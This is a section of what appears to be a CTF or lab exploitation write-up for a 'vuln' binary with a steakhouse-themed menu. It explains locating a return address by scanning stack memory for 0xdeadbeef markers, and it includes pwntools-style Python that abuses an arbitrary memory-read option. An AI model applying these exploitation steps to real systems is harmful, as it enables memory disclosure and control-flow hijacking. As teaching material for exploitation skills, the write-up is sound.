 ## 0x5. Locating the Return Address

At this moment, we hit `0xdeadbeef`. To locate our position in memory, we need to understand which steak frame this is, and establish reference points to help us navigate memory.

The `vuln` binary is constant during execution with the same input data: Position Independent Executable (PIE) is not enabled, and memory allocations are predictable.

We know that the `main()` function frame creates an `init()` function frame, then creates the `enjoy_time()` function frame - this forms the initial part of the stack layout, up to the point just before we order 50,000 steaks.

Even the memory layout of these 50,000 steak allocations is predictable, due to the deterministic behavior of the allocator.

Having hit one of the `0xdeadbeefs`, we can now exploit the structure of the steak frame. Since the steak frame has a known layout, we can navigate it precisely.

First, we locate the top of the current steak frame.

### 0x5.1 Memory Scanning - Locating the first `0xdeadbeef` ever

For this run, assume that we found a `0xdeadbeef` match at the address:
```python
some_deadbeef_address_str = '0x00007ffe25300000'
```
We now iterate backward through memory in `0x10` steps, until we reach the first appearance of the `0xdeadbeef` word within the current steak frame.

Visually, this process looks like:

<p align="center">
  <img src="../docs/images/05_steak_any.png" alt="Some steak frame" style="width: 70%;">
</p>

At the Python level, this is simply a loop that iterates backward through address space in `0x10` steps:

```python
some_deadbeef_address_int = int(some_deadbeef_address_str,16)
top_deadbeef_in_frame_addr = 0
deadbeef_alignment = 0x10

while (b"Oh wow" not in line): # iterate until the topmost 0xdeadbeef in the frame is reached
    some_deadbeef_address_int -= deadbeef_alignment
    p.sendlineafter(b'steakhouse\x1b[0m', CHOICE_READ_NEWSPAPER)                         
    payload = hex(some_deadbeef_address_int)                              
    p.sendlineafter(b'read?\x1b[0m', payload.encode())
    line = p.recvline()
    line = p.recvline()
    
top_deadbeef_in_frame_addr = some_deadbeef_address_int + deadbeef_alignment      
```